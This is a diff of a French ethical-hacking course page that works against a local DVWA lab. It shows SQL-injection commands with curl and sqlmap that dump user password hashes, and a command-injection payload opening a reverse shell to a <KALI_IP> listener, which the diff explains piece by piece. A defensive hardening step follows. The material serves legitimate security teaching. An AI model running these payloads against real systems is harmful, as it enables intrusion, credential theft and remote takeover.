

Before and after one commit to yugmerabtene/techniques-de-hacking-niveau-1, a Markdown page: JOUR-01-introduction-hacking-ethique-vulnerabilites.md, 3 parts joined by grey strips. Shown at 92% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/JOUR-01-introduction-hacking-ethique-vulnerabilites.md
+++ b/JOUR-01-introduction-hacking-ethique-vulnerabilites.md
@@ -465,13 +477,13 @@ La requête `SELECT first_name, last_name FROM users WHERE user_id = '$id'` devi
 
 ### Étape 1 — Test manuel
 
-**Important :** remplacez `XXXX` par votre PHPSESSID. Pour l'obtenir : Firefox → DVWA → F12 → Storage → Cookies → copier la valeur de `PHPSESSID`.
+**Important :** utilisez le cookie jar sauvegardé précédemment dans `/tmp/dvwa_cookie.txt`. Il contient déjà votre PHPSESSID et le niveau `security=low` (définis au Lab 1.1).
 
 ```bash
-# Test manuel d'injection SQL : -b envoie le cookie PHPSESSID (authentification) + security=low (niveau de sécurité DVWA)
+# Test manuel d'injection SQL : -b lit le cookie depuis le fichier jar (PHPSESSID + security=low inclus)
 # L'URL contient ' OR '1'='1' # encodé en URL (%27 = ', %20 = espace, %3D = =, %23 = #)
 # grep -c compte les occurrences de "First name" → doit retourner 5 (tous les users) au lieu de 1
-curl -s -b "PHPSESSID=XXXX;security=low" \
+curl -s -b /tmp/dvwa_cookie.txt \
   "http://localhost:8088/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271%27+%23&Submit=Submit" \
   | grep -c "First name"
 # → 5 (5 utilisateurs affichés au lieu d'1)  (injection SQL confirmée : tous les enregistrements sont retournés)
@@ -481,12 +493,12 @@ curl -s -b "PHPSESSID=XXXX;security=low" \
 
 ```bash
 cd ~/cours-hacking/jour-1/labs
-# Remplacer XXXX par le PHPSESSID (Firefox → F12 → Storage → Cookies)
 
-# sqlmap : -u = URL cible, --cookie = cookie de session pour l'authentification, -D = base de données cible (dvwa)
-# -T users = table cible, -C user,password = colonnes à extraire, --dump = affiche le contenu, --batch = mode non-interactif
+# sqlmap : --cookie-file = charge les cookies depuis le fichier jar au format Netscape (PHPSESSID + security=low)
+# -u = URL cible, -D = base de données cible (dvwa), -T users = table cible
+# -C user,password = colonnes à extraire, --dump = affiche le contenu, --batch = mode non-interactif
 sqlmap -u "http://localhost:8088/vulnerabilities/sqli/?id=1&Submit=Submit" \
-  --cookie="PHPSESSID=XXXX;security=low" \
+  --cookie-file=/tmp/dvwa_cookie.txt \
   -D dvwa -T users -C user,password --dump --batch
 ```
 Sortie attendue :
@@ -574,8 +586,14 @@ ip addr show docker0 | grep 'inet ' | awk '{print $2}' | cut -d/ -f1
 # → généralement 172.17.0.1  (c'est l'IP que les conteneurs utilisent pour joindre l'hôte Kali)
 
 # Payload dans DVWA Command Injection :
-# bash -c exécute la chaîne comme commande, bash -i = mode interactif, >& /dev/tcp/IP/PORT = redirige stdin/stdout vers la socket TCP
-127.0.0.1; bash -c 'bash -i >& /dev/tcp/<KALI_IP>/4444 0>&1'  # Ouvre un shell inversé vers l'écouteur Kali
+# Décorticage de la commande de reverse shell (morceau par morceau) :
+#   1. 127.0.0.1;          → ping localhost (normal), puis le ; enchaîne la 2e commande
+#   2. bash -c '...'        → exécute la chaîne entre guillemets dans un sous-shell bash dédié
+#   3. bash -i               → lance un shell bash interactif (avec invite de commandes, historique)
+#   4. >& /dev/tcp/IP/PORT   → redirige stdout (sortie) ET stderr (erreurs) vers la socket TCP distante
+#   5. 0>&1                  → redirige stdin (entrée clavier) vers la même socket
+#   Résultat : votre terminal local est connecté à distance au serveur → shell complet
+127.0.0.1; bash -c 'bash -i >& /dev/tcp/<KALI_IP>/4444 0>&1'
 ```
 
 **Checkpoint :** Retournez dans le **Terminal 1** (netcat) : une connexion entrante apparaît, suivie d'un prompt shell. Tapez `whoami` → `www-data`.
@@ -597,13 +615,22 @@ docker exec dvwa-target bash -c "
   sed -i 's/disable_functions =.*/disable_functions = system,exec,passthru,shell_exec,popen,proc_open/' /etc/php/*/apache2/php.ini
   apache2ctl restart
 "
+# Vérification : shell_exec est-il bien désactivé ?
+docker exec dvwa-target bash -c "php -r 'echo function_exists(\"shell_exec\") ? \"actif\" : \"inactif\";'"
+# → inactif  (shell_exec est bien désactivé)
+
 # Re-tester l'injection de commande :
 curl -s "http://localhost:8088/vulnerabilities/exec/" --data "ip=127.0.0.1;whoami&Submit=Submit" \
-  -b "PHPSESSID=XXXX;security=low" 2>/dev/null | grep -c "www-data"
+  -b /tmp/dvwa_cookie.txt 2>/dev/null | grep -c "www-data"
 # → 0 (whoami ne s'exécute plus : shell_exec est désactivé)
 ```
 
 > **Checkpoint défensif :** Après `disable_functions`, l'injection de commande et le reverse shell échouent.
+
+> **☕ Pause recommandée :** Le Lab 1.5 ci-dessous est le plus long et le plus dense de la journée.
+> Prenez 5-10 minutes avant de l'attaquer — vous allez enchaîner injection SQL sur 3 points d'entrée,
+> extraction automatisée avec sqlmap, et cracking de mots de passe. Un esprit reposé est plus efficace
+> pour analyser les résultats.
 
 ---
 
````
Also changed, not shown: other parts of JOUR-01-introduction-hacking-ethique-vulnerabilites.md (+28 -2 lines).
